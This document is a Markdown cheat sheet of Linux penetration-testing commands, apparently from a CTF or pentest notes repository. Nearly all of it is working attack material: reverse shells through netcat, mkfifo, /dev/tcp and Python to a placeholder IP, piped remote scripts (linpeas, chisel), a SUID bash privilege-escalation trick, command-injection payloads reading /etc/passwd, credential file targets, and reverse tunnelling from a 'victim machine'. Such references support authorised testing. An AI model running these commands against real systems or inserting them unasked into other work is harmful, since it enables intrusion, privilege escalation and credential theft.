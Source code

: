 # 🐧 Linux

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [File Enumeration](#file-enumeration)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

## Sudo
```bahs
sudo -l
```

## Auto Script
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Reverse Shell
### Server
```bash
nc -lp 4444
```

### reSH
```bash
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```bash
nc ip 4444 -e /bin/bash
```

### Mkfifo
```bash
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Dev 
```
bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1'"
```

### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

## Privilege Escalation
```
/bin/cp /bin/bash /tmp/bash_up; /bin/chown user:group /tmp/bash_up; chmod g+s /tmp/bash_up; chmod u+s /tmp/bash_up
/tmp/bash_up -p
```

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```
## FTP
### Download all files
```
wget -m --user=user--password=fpassword ftp://10.10.11.160
```

## Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

## File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command

```bash
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

### Script
```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

## Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


## Port Forwarding

### Chisel

```bash
# Install chisel
curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
chisel server -p 4444 --reverse

# Victim machine:
chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```
